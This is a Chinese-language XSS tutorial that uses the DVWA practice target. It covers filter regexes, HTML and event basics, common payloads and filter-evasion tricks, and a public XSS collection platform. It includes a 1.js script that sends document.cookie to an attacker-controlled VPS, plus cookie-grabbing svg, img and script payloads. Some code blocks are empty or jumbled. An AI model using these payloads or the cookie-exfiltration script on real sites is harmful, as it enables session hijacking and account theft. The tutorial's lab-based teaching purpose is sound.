# 201-A8-XSS（下）

在本节中，我们将继续xss的一些内容。

## 一 dvwa靶机高等级的方式

在dvwa的高等级当中，由于代码所使用的逻辑通过如下的代码过滤掉了所有基于script标签的可能性。

```
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name ); 

preg_replace       通过正则表达式替换文字内容
/i，               模式中的字符将同时匹配大小写字母。
```

所以当我们试图进行绕过的尝试输入`<sc<script>ript>alert(1)</script>` 后，留在网页中的内容同样只剩余alert(1)的内容。



而通过扫描器进行漏洞检测，则可以得到相应的payload的攻击方式：

```

```



所以通过攻击的演示，那么我们可以发现并不止于script的利用方式。

```
1 dvwa低级别：


2 dvwa低级别：


3 dvwa低级别：
python3 -m http.server 8000


<body>
	test
</body>

python3 -m http.server

通过文件上传浏览页面触发cookie窃取


</div><br /><li> <a href="http://book.fsec.io/" target="_blank">点我链接给你好看</a></li>


```

实验中，针对高级别的payload存在不完善地方。

```
</div><br /><li> <a href="http://book.fsec.io/" target="_blank">点我链接给你好看</a></li>
```







在vps上创建一个`1.js`的文件，python开启http服务.

1.js文件内容为

```
var img = document.createElement("img");
img.src='//192.168.1.118/?'+document.cookie; #（此处ip需换成自己vps的ip）
document.body.appendChild(img);
img.removeAttribute('onerror');
```

通过``svg`标签获取cookie



返回vps上查看结果

已经返回cookie




使用`img`标签获取cookie：

```

```



返回到vps上查看结果：




## 二 扩展的知识

我们可以用肉眼观察到一个直观的规律，XSS漏洞产生的位置往往在用户提交的文本被反馈在浏览器上的地方。

如下图：



产生的原因在于，服务器信任了用户输入，而用户输入的文本在经过一定构造后会被当做代码执行。

这其实是注入类漏洞的本质，你也可以将XSS漏洞，即跨站脚本攻击理解为HTML或JavaScript代码注入。

在日后挖掘漏洞的过程中，也应该保持这种敏锐性，即如果你输入什么，浏览器就显示什么，则存在漏洞的可能。


### 2.1 HTML基础

了解一些有关于HTML相关的内容则很有必要。

```
    <!DOCTYPE html> 声明为 HTML5 文档
    <html> 元素是 HTML 页面的根元素
    <head> 元素包含了文档的元（meta）数据，如 <meta charset="utf-8"> 定义网页编码格式为 utf-8。
    <title> 元素描述了文档的标题
    <body> 元素包含了可见的页面内容
    <h1> 元素定义一个大标题
    <p> 元素定义一个段落
    
```

```
  "HTML 标签" 和 "HTML 元素" 通常都是描述同样的意思.
	HTML 标签是由尖括号包围的关键词，比如 <html>
    HTML 标签通常是成对出现的，比如 <b> 和 </b>
    标签对中的第一个标签是开始标签，第二个标签是结束标签
    开始和结束标签也被称为开放标签和闭合标签
```

常见的标签有：

HTML 标题

HTML 标题（Heading）是通过`<h1> - <h6>` 标签来定义的。

```
<h1>这是一个标题</h1>
<h2>这是一个标题</h2>
<h3>这是一个标题</h3>
```

HTML 段落

HTML 段落是通过标签 `<p>` 来定义的。

```
<p>这是一个段落。</p>
<p>这是另外一个段落。</p>
```

HTML 链接

HTML 链接是通过标签 `<a>` 来定义的。href属性用来描述链接的地址

```
<a href="http://www.fsec.io">这是fsec链接</a>
```

HTML 图像

HTML 图像是通过标签 ` `来定义的。其中src 指 "source"。源属性的值是图像的 URL 地址。

```

```

某些 HTML 元素具有空内容

没有内容的 HTML 元素被称为空元素。空元素是在开始标签中关闭的。

`<br>` 就是没有关闭标签的空元素，其作用是换行。

有些标签是没有结束标签的，如上文中的``它会在内容写完之后在末尾加`/`如``

下面我们来介绍`<from>`和`<input>`，表单元素是允许用户在表单中输入内容，比如如下图：





在XSS中还有一个常用的`<iframe>` 标签，它会创建包含另外一个文档的内联框架（即行内框架）。如下：





那么此前我们一直在用到的`<script>`标签，其含义为用于加载脚本文件，如： JavaScript。

`<script>` 标签用于定义客户端脚本，比如 JavaScript。

`<script>` 元素既可包含脚本语句，也可通过 `src` 属性指向外部脚本文件。

JavaScript 最常用于图片操作、表单验证以及内容动态更新。


此外，当我们使用F12查看时，也会看到一些CSS语句。CSS是渲染网页的，就目前阶段，可理解为就是关于网页内容格式的。

可以简单了解一下，以下为CSS语句的大体样貌，style后面的参数决定了字体、颜色、字号等：

```
<h1 style="font-family:verdana;">一个标题</h1>
<p style="font-family:arial;color:red;font-size:20px;">一个段落。</p>

<!--font-family（字体），color（颜色），和font-size（字体大小 -->
```


### 2.2 `<script>` 标签

如需在 HTML 页面中插入 JavaScript，请使用 `<script>` 标签。

`<script>` 和 `</script>` 会告诉 JavaScript 在何处开始和结束。

`<script>` 和 `</script>` 之间的代码行包含了 JavaScript:

例1：alert用于弹框。

```
<script>
alert("农夫安全");
</script>
```






### 2.3 外部 JavaScript 文件调用

也可以把脚本保存到外部文件中。外部文件通常包含被多个网页使用的代码。

外部 JavaScript 文件的文件扩展名是 .js。

如需使用外部文件，请在 `<script>` 标签的 "src" 属性中设置该 .js 文件：

我们在此前测试用的html文件所在目录下创建一个test目录，在其下创建一个1.js文件：



内容为：



接下来我们在代码中引用它，语法格式为`<script src="xxx.js"></script>`注意相对目录位置。



浏览器打开效果如下：




### 2.4 事件

HTML 事件可以是浏览器或用户做的某些事情。我们此前用的XSS语句``就利用了事件。onerror代表在加载文档或图像时发生错误时执行后面的alert（弹框），而src指定的路径并不存在，则加载图片必会出错，后面的也就依次执行了。除了onerror以外，类似的事件还有很多。这些会在以后的XSS漏洞挖掘中发挥妙用。

鼠标事件

| 属性        | 描述                                 |
| ----------- | ------------------------------------ |
| onclick     | 当用户点击某个对象时调用的事件句柄。 |
| ondblclick  | 当用户双击某个对象时调用的事件句柄。 |
| onmousemove | 鼠标被移动。                         |
| onmouseover | 鼠标移到某元素之上。                 |
| onmouseout  | 鼠标从某元素移开。                   |
| onmousedown | 鼠标按钮被按下。                     |
| onmouseup   | 鼠标按键被松开。                     |

键盘事件

| 属性       | 描述                       |
| ---------- | -------------------------- |
| onkeydown  | 某个键盘按键被按下。       |
| onkeyup    | 某个键盘按键被松开。       |
| onkeypress | 某个键盘按键被按下并松开。 |

框架/对象（Frame/Object）事件

| 属性       | 描述                         |
| ---------- | ---------------------------- |
| onabort    | 图像的加载被中断             |
| onload     | 一张页面或一幅图像完成加载   |
| onerror    | 在加载文档或图像时发生错误。 |
| onpageshow | 事件在用户访问页面时触发     |
| onscroll   | 当文档被滚动时发生的事件     |
| onresize   | 窗口或框架被重新调整大小。   |
| onfocus    | 元素获取焦点时触发           |

剪贴板事件

| 属性    | 描述                           |
| ------- | ------------------------------ |
| oncopy  | 该事件在用户拷贝元素内容时触发 |
| oncut   | 该事件在用户剪切元素内容时触发 |
| onpaste | 该事件在用户粘贴元素内容时触发 |


## 三 常用xss语句

### 3.1 xss的常用语句

测试XSS漏洞最基本的语句如下：

```
<script>alert(1)</script>
<script>alert(document.cookie)</script>
 
 <svg onload=alert(document.cookie)>
 <a href=javascript:alert(document.cookie)>
```

当然，许多程序对这些常见标签都做了过滤，然而我们在DVWA中也见识到了不合理、不彻底的过滤。

面对过滤有几种基本的思路。

1.避开过滤关键字，实现同样效果。

具体在XSS语句中，可以通过替换标签，替换元素内容来实现。对html和JavaScript了解越多，就越能找到可替换的代码。

2.通过某种混淆来实现绕过过滤。

如大小写绕过。

```
<ScRiPt> alert(1) </ScRiPt>
```

如编码绕过，如url编码：

```
%3c%53cript%3e alert(1) %3c%2f%53cript%3e
```

如双写绕过：

```
<scr<script>ipt>alert(1)</scr</script>ipt>
```

更多的可能性可阅读如下链接内容：

```
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
```


### 3.2 一种另类的思考方式

而正如同前文所探讨过的内容，xss的漏洞点在于让浏览器产生歧义，为此我们是不是可以换个角度去思考xss的存在：

```
无论是弹窗，还是窃取了cookie，亦或者在攻击浏览器插件，或又如同将dvwa的文本框变成了友链。
而实质都是将网站所输出html内容，通过我们所插入的内容，变成了另外的一种含义。
```

如果换成类似的思维方式，可以进入所打包的靶场主机的83端口。

原本的展示内容如下：




在第一关中，我们发现可由用户传递的参数为name。




那么我们通过html查看，发现test的内容出现在下面的内容中：

```
<h2 align=center>欢迎用户test</h2><center></center>
```

test字段为用户可控制，那么则可以把xss的任务演变成如下的任务：

```
修改test的内容，加入`<script>alert(1)</script>`的因素，原本的语法还不出现异常。
所以逆推出的payload如下：
test</h2><script>alert(1)</script><h2
```


## 四 xss平台的使用

在互联网有好心人搭建了公开的xss平台可以提供除beef-xss以外的解决方案。

下文的演示通过网址`https://xss.pt`进行




我的项目--创建--项目名称--下一步--选择模块--下一步，待项目创建完成后即可使用。




## 五 总结

原理

本质

分类、利用过程

beef与xss平台的使用场景

